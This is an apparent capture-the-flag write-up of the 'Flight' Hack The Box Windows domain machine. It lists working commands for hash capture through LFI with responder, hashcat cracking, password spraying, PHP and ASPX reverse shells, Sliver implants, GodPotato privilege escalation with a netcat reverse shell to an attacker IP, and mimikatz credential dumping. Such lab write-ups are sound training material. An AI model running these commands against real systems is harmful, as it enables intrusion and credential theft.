No starting credentials
IP-address `10.129.3.119`

**Scanning**

```
nmap --top-ports 10000 -sC -sV 10.129.3.119
```

Output

```
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: g0 Aviation
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-22 20:10:13Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Add to `/etc/hosts`

```
10.129.3.119 flight.htb
```

We can start from website `HTTP`


After scanning hidden directories with `gobuster` there was nothing to move on so i scan `subdomains` with `ffuf`.

```
ffuf -u http://flight.htb/ -H "Host: FUZZ.flight.htb" -w /home/kali/wordlists/discovery/DNS/subdomains-top1million-20000.txt  -fs 7069
```



Added to `/etc/hosts`

```
school.flight.htb
```



When i clicking a pages i see a `view` parameter in URL which is changing when we move on page to verify a `LFI` vulnerability i put `index.php`

```
http://school.flight.htb/index.php?view=index.php
```



When i check how server identifies that it is malicious actions.In source code of HTML  i find this



Let's try to get a hash of user which is running a website via `responder` and `LFI` trick. Notice that we have prohibited symbols such as `\\` , `..` .

Start `responder`

```
sudo responder -I tun0
```

And we trigger server to log into our `SMB` share

```
view=//10.10.14.89/Share
```



Look at `responder`



We successfully phish a hash of `svc_apache` user so now let's try to crack it.

```
hashcat hash ~/wordlists/passwords/rockyou.txt -m 5600
```



And we got a new credentials 

```
svc_apache : S@Ss!K@*t13
```

Validate and check shares in domain



We are not admin and have a READ access to shares `Web` , `Users` , `Shared` 
After enumeration i understand that Web share used for websites 

```
http://school.flight.htb 
http://flight.htb
```

Users share is a computer `C:\Users`
In Shared nothing

Let's try to use `bloodhound` and check some misconfigurations.

```
bloodhound-python -d 'flight.htb' -u 'svc_apache' -p 'S@Ss!K@*t13' -c all -ns 10.129.3.119
```

There are no interesting path's. After some theories i think about password reuse.Why? Because `svc_apache` it's a service account and maybe someone who owns it in company set the same password.

Got all users in domain 

```
nxc smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --rid-brute | grep -iE 'SidTypeUser' | grep -viE 'WINDOWS|\$' | awk '{print $6}' | awk -F'\\' '{print $2}' | tee usernames.txt
```



Password spraying perform

```
nxc smb flight.htb -u usernames.txt -p 'S@Ss!K@*t13' --continue-on-success
```



New user credentials

```
S.Moon : S@Ss!K@*t13
```



User `s.moon` has write access to `Shared` share. I build a phishing `.lnk`
file to phish someone who uses `Shared` share but i got an issue



`msfconsole` module for creation

```
search multidrop
```

But we don't get a `STATUS_ACCESS_DENIED` when i create a `desktop.ini` file



I start `responder` again and phish a hash for user `c.bum`



Let's crack it

```
hashcat hash2 ~/wordlists/passwords/rockyou.txt -m 5600
```



Here we go. Credentials for user `c.bum`

```
c.bum : Tikkycoll_431012284
```

If we look at `bloodhound` user `c.bum` is a group member of `WEBDEVS`. So we look up on shares again.



User `c.bum` has a WRITE permission over `Web` share . I think that we can put a reverse shell and got it. I use a `PHP Ivan Sincek` reverse shell.

Put reverse shell file `.php` to share `Web`



After trigger on this URL

```
http://school.flight.htb/reverse.php
```

And we got an initial foothold as user `svc_apache`.



Also small note when we log in to share `Users` as user `c.bum` we can read a `user.txt` from `c.bum` `\Desktop` directory.



For more stable working with session i will use a `Sliver` framework. 

File generation

```
generate --mtls 10.10.14.89:443 --save /home/kali/htb/machines/Flight/pivot.exe --os windows
```

Start listener in `Sliver`

```
 mtls -L 10.10.14.89 -l 443
```

After file transferring and execution we got a session 



During enumeration i found an interesting port number 

```
netstat -ano | findstr TCP
```



I do pivoting over this port

```
portfwd add -r 127.0.0.1:8000
```

And we got a new website which is developing


To know on what directory i am physically 



```
C:\inetpub\development\
```



We got access denied because a user `svc_apache` doesn't have a permission to write this folder so we need to get reverse shell as user `c.bum` with tool `RunasCs.exe`. 

```
.\RunasCs.exe c.bum Tikkycoll_431012284 cmd.exe -r 10.10.14.89:9001
```



Put session into sliver by executing a `pivot.exe` file from reverse shell



User `c.bum` has permissions to write on this directory 


But i think that we can't use a `.php` files



I think that i need a `.aspx` reverse shell. I downloaded it from github repo 
https://github.com/borjmz/aspx-reverse-shell

Upload a reverse shell `.aspx` file 

```
upload /home/kali/htb/machines/owa/shell.aspx
```

Trigger

```
http://localhost:8080/development/shell.aspx
```

We got it



Move session to sliver executing a `pivot.exe` file in reverse shell.



So `iis apppool\defaultapppool` it's a service account and can have a high privilege so that will be first what to check.

```
whoami /all
```



Out target is `SeImpersonatePrivilege` is dangerous because it allows a process to impersonate another user’s security token, which can be abused to escalate privileges to SYSTEM using techniques like Potato attacks. An attacker can use it to impersonate higher-privileged tokens and execute code as SYSTEM, effectively taking full control of the machine. The account `iis apppool\defaultapppool` has this privilege because IIS needs to impersonate authenticated users when handling web requests, but this becomes risky if the web application is compromised.

I will use a  `GodPotato` tool to exploit `SeImpersonatePrivilege` 



After verifying that this is working we can try to get a reverse shell we need a `netcat.exe` 

```
windows-binaries -h
```



Transfer `nc.exe` to target host

Run a `GodPotato-NET4.exe`

```
.\GodPotato-NET4.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.89 9001"
```



So we got a system and i move it to sliver. It is not necessarily but good practice to dump all credentials in domain i will use a `mimikatz`. It is so noisy



Upload `mimikatz`



Dump all passwords in system

```
mimikatz # sekurlsa::logonpasswords
```



Read `root.txt`



Thanks for reading

See you soon

Colosion